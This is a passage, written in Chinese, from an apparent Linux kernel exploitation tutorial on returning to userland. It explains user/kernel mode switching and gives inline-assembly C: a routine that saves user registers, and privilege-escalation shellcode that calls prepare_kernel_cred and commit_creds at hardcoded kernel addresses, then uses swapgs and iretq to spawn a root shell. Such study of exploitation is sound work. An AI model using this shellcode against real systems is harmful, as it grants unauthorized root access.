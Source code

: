 ### Return to userland

现在我们写的exp，是没有办法获得root权限的。原因是，内核态和用户态是隔离的，当我们执行shellcode时，我们还在内核态，它不会把结果给用户，它没有返回。所以，我们需要其返回用户态。

这里要再讲一下，用户态与内核态之间的切换。当用户态主动进入内核时（系统调用、异常），就会陷入内核态，此时有特权级的提升，涉及到堆栈的切换。首先，要保存`user_ss(segment selector)`、`user_sp`、`user_flags`、`user_cs`、`user_ip`以及`err`等信息。在返回的时候要恢复这些寄存器的值。

对于我们的shellcode，在开始之前也要先保存这些信息，以便在返回的时候让系统走正常的流程。

```c
unsigned long user_cs,user_ss,user_sp,user_rflags,user_rip;
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}
```

没有直接操作标志寄存器的方法，所以使用了`pushf`。另外，我们返回时需要恢复这些值，同时还要恢复`gs`的值。`gs`寄存和`fs`寄存器都是附件段的段寄存器，这些寄存器的具体作用由系统来决定，在Linux中，`gs`指向TLS结构，通过这个我们可以获取内核堆栈地址等重要信息。在返回时，我们要通过`swapgs`将其切换回用户态的`gs`。返回要使用`iret`：

`iret`指令会按顺序依次弹出`eip`、`cs`以及`eflag`的值到特定寄存器中，然后从新的`cs:ip`处开始执行。如果特权级发生改变，则还会在弹出`eflag`后再依次弹出`sp`与`ss`寄存器值。

修改shellcode:

```c
unsigned long user_rip = (unsigned long)get_shell;

void pwned_addr(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}
```
